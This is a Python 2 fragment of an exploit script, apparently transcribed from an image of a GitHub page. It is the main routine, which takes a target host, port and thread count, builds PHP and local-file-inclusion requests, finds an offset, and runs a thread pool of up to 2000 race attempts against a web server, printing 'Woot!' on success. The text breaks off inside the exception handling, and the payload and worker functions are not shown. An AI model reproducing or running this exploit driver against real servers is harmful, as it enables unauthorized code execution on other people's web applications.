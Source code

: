 ```py
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 2000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
```